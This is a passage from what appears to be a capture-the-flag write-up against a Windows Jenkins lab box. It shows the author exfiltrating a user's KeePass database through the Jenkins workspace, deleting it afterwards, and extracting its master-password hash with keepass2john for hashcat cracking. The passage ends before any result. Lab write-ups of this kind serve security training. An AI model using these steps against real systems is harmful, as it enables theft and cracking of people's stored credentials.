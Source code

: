     
    
    PS C:\Users\kohsuke\Documents> ls
    
    
        Directory: C:\Users\kohsuke\Documents
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        9/18/2017   1:43 PM           2846 CEH.kdbx 
    

That’s a [KeePass](https://keepass.info/) database, a local password manager.

### Exfil

On a Linux host, I could just use `nc` to send this back. On Windows, it’s a
bit tricker. Still, there’s a webserver here, so I’ll copy the file into that
directory:

    
    
    PS C:\Users\Administrator\.jenkins\workspace\0xdf> copy \users\kohsuke\Documents\CEH.kdbx .
    PS C:\Users\Administrator\.jenkins\workspace\0xdf> ls
    
    
        Directory: C:\Users\Administrator\.jenkins\workspace\0xdf
    
    
    Mode                LastWriteTime         Length Name                                                                  
    ----                -------------         ------ ----                                                                  
    -a----        9/18/2017   1:43 PM           2846 CEH.kdbx  
    

Now clicking on “Workspace” in the Jenkins GUI shows the file:

![image-20220412205920650](https://0xdfimages.gitlab.io/img/image-20220412205920650.png)

Once I download it, I’ll delete it from the directory:

    
    
    PS C:\Users\Administrator\.jenkins\workspace\0xdf> del CEH.kdbx 
    

### Crack Master Password

With KeePass, to get things out of the database, I need the master password.
I’ll use the `keepass2john` script to create a hash the represents the
password:

    
    
    oxdf@hacky$ keepass2john CEH.kdbx 
    CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
    oxdf@hacky$ keepass2john CEH.kdbx > CEH.kdbx.hash
    

I’ll use `hashcat` to crack it. I’ll need the `--user` flag as the hash starts
with `[username]:`. `hashcat` now can automatically detect the hash type (most
of the time), and it works here:
